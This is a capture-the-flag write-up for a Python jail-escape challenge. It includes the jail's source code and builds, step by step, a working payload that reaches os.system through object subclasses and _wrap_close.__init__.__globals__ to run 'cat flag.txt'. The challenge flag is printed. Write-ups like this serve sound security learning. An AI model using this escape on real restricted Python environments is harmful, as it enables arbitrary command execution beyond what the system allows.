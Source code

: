 # Writeup: Prison Break Level 3
Category: Python Jail Escape

**Challenge Description**

You are caught again, and the warden confiscated all your tools. This time, the restrictions are even stricter:  
- Input length limited to **256 characters**  
- Only **printable characters** allowed  
- Most builtins (`sys`, `os`, `import`, etc.) are **removed**  
- All modules (`sys.modules`) are **deleted**  
- Global and local namespaces are **cleared**  

You are given the source code used in the challenge to view what warden has done to you after being caught for the third time.

**Goal:** Bypass these restrictions and execute arbitrary commands (e.g., `cat flag.txt`).  

**Hint:**  
> *"Check this: `x.__init__.__globals__` and call what you have found in `_wrap_close` for example: `os['system']('cat flag.txt')`"*  

**TL;DR:**  

To bypass the restrictions, we:  
1. **Found `_wrap_close`** (a class in `io` module) via `().__class__.__base__.__subclasses__()`.  
2. Accessed its `__init__.__globals__` to retrieve the **`os` module**.  
3. Called `os.system('cat flag.txt')` to read the flag.  

**Final Payload:**  
```python
print([x for x in (1).__class__.__base__.__subclasses__() if '_wrap_close' in x.__name__][0].__init__.__globals__['system']('cat flag.txt'))
```  
**Flag:**
`CITU{y0u_re4lly_4r3_pr1s0n_br34k3r_ret_wants_to_meet_you_soon!!!!}`

---

**jail.py source code**
```python
#!/usr/local/bin/python

import os
import sys
import string

print("="*40)
print("Welcome to the prison break level 3")
print("="*40)
print("Warden: Ohoy!! you are being caught again.")
print("Warden: I found out that you escaped at level 2, now I will confiscate all your tools here.")
print("Warden: I will also make sure that you won't be able to escape again. BWAHAHA!!")
print("="*40)
print("---- TIPS from 'ret' who escaped and now he is in katipwnan ----")
print("1. Steal back the tools from the prison's server.")
print("2. Warden is careless, your tools are still in the prison.")
print("----------------------------------------------------------------")
hax = input("> ")
sys.stdin.close()

if len(hax) > 256 or any(x not in string.printable for x in hax):
    print("In here your tools was replaced...")
    exit(1)

code = f"""
import sys
import os
import inspect

if "_posixsubprocess" in sys.modules:
    print("nope 2")
    os._exit(1)

for k in list(sys.modules):
    del sys.modules[k]

f = inspect.currentframe()

for k in f.f_builtins:
    if k == "print":
        continue
    if k == "dir":
        continue
    if k == "Exception":
        continue
    f.f_builtins[k] = None

for k in f.f_globals:
    if k != "f":
        f.f_globals[k] = None
for k in f.f_locals:
    # print(k, f.f_locals[k])
    f.f_locals[k] = None

{hax}
""".strip()

os.execv(sys.executable, [sys.executable, "-c", code])
```

### Approach 

**1. Now What Are The Restrictions This Time?**

Warden confiscated all my tools, meaning:
- **No direct imports** (`import os` is blocked).  
- **No builtins** (`sys`, `os`, `open`, etc. are removed).  
- **No dangerous strings** (but no explicit keyword filter here).  
- **Only `print`, `dir`, and `Exception` remain usable.**  

**2. Finding A Way to Access `os`**

Since `os` is blocked, we need an **indirect way** to access it. The hint suggests:
> `x.__init__.__globals__`  

This means we can:
- Find a class (`x`) that has `os` in its `__globals__`.  
- The hint specifically mentions `_wrap_close` (a class in Python’s `io` module).  

**3. Getting `_wrap_close` via Subclasses**

- All Python classes inherit from `object`.  
- We can list all subclasses of `object` using:

  ```python
  ().__class__.__base__.__subclasses__()
  ```  
- We search for a class with `'_wrap_close'` in its name.  

**4. Accessing `os` from `_wrap_close`**

Once we find `_wrap_close`, we:  
1. Access its `__init__` method.  
2. Check `__globals__` (contains module-level variables, including `os`).  
3. Call `system('cat flag.txt')`.  

**5. Final Payload Construction**

```python
# Find _wrap_close class
_wrap_close = [x for x in (1).__class__.__base__.__subclasses__() if '_wrap_close' in x.__name__][0]

# Access os.system via __globals__
_wrap_close.__init__.__globals__['system']('cat flag.txt')
```

**6. Escaping The Jail For Real This Time (Getting The Flag)🚩**

Since the input length is limited to 256 characters, we are going to shorten the payload.
**Shortened to fit 256 chars:**  
```python
print([x for x in (1).__class__.__base__.__subclasses__() if '_wrap_close' in x.__name__][0].__init__.__globals__['system']('cat flag.txt'))
```
After inputting the payload, we now got the flag
> CITU{y0u_re4lly_4r3_pr1s0n_br34k3r_ret_wants_to_meet_you_soon!!!!}

### Reflections
Learned a lot about deep Python internals, seems like I still do not know Python that much. Escaping jail is actually hard😥.

Also, most of the logic to find the answer of this CTF is through **AI**.

---

[**Back to Home**](/)
